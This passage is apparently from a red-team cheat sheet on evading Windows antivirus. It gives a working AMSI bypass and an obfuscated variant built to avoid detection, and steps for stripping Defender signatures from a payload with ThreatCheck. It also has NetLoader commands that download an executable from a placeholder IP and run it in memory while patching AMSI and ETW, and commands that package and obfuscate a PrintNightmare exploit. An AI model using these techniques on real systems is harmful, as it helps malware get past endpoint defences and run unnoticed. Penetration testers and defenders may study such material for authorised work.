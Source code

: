 #### Structure of the code
- Change methods and lines of code around. 

#### Example of changing amsi bypass string
```
# Original amsi bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# New
$v=[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils'); $v."Get`Fie`ld"('ams' + 'iInitFailed','NonPublic,Static')."Set`Val`ue"($null,$true)
```

### Defeating Microsoft Defender
- Use https://github.com/rasta-mouse/ThreatCheck
- Or https://github.com/matterpreter/DefenderCheck
- Or https://github.com/gatariee/gocheck (Supports multiple av's)
1. Run Threatcheck ```.\ThreatCheck.exe -f .\shell.exe```
2. Replace string which gets detected.
3. Recompile and check again!
- Also possible to use https://github.com/dobin/avred

### Scanning amsi
#### Threatcheck
- https://github.com/rasta-mouse/ThreatCheck
```
.\ThreatCheck.exe -f .\shell.ps1 -e AMSI
```

#### AmsiTrigger
- https://github.com/RythmStick/AMSITrigger
```
.\AmsiTrigger.exe -i .\shell.ps1 -f 2
```

### Offensive .NET
- https://github.com/Flangvik/NetLoader
- Load binary from filepath or URL and patch AMSI & ETW while executing
```
C:\Users\Public\Loader.exe -path http://xx.xx.xx.xx/something.exe
```

#### Use custom exe Assembyload to run netloader in memory and then load binary
```
C:\Users\Public\AssemblyLoad.exe http://xx.xx.xx.xx/Loader.exe -path http://xx.xx.xx.xx/something.exe
```

#### Random notes
```
pyinstaller.exe --onefile .\CVE-2021-1675.py
pyarmor pack --clean -e "--onefile " .\CVE-2021-1675.py
```

